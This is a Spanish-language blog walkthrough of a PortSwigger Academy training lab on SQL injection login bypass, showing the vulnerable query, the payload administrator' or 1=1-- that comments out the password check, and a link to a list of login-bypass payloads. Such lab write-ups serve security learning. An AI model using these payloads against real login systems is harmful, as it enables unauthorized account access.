


+++
author = "Alux"
title = "Portswigger Academy Learning Path: SQL Injection Lab 2"
date = "2021-11-02"
description = "Lab: SQL injection vulnerability allowing login bypass"
tags = [
    "sqli",
    "portswigger",
    "academy",
    "burpsuite",
]
categories = [
    "pentest web",
]
series = ["Portswigger Labs"]
image = "headlab2.png"
+++

# Lab: SQL injection vulnerability allowing login bypass

En este laboratorio se pretende explotar un SQL Injection, esta vez es un inicio de sesion, y se intentara explotar como en el laboratorio 1 en el cual se tiene que tratar de hacer un bypass para que el sistema no valide el resto que seria la contrasena. La consulta que hara seguramente sera:

```sql
SELECT * FROM users WHERE username = 'usuario' AND password = 'contrasena'
```

## Reconocimiento

Se tratara de hacer que el sistema ya no invalide la contrasena que es enviada en la peticion, todo esto comentando lo que le sigue, de esta manera: 

```sql
SELECT * FROM users WHERE username = 'usuario'--' AND password = 'contrasena'
```
De esta manera solo valida al usuario y la contrasena se mantiene comentada.

## Explotacion

En este caso hay que hacerse con el usuario `administrator` del sistema, asi que se procede a realizar la siguiente inyeccion:

`administrator' or 1=1--`



que quedaria asi al ejecutar la consulta:

```sql
SELECT * FROM users WHERE username = 'administrator' or 1=1--' AND password = 'contrasena'
```
Finalmente hemos resuelto el lab:



Tambien hubiera sido posible utilizar una <cite>lista[^1]</cite> para realizar un ataque con intruder pero esta vez no fue necesario ya que el bypass es basico, pero se podria intentar.

[^1]: [Lista](https://raw.githubusercontent.com/swisskyrepo/PayloadsAllTheThings/master/SQL%20Injection/Intruder/Auth_Bypass2.txt) de payloads bypass login 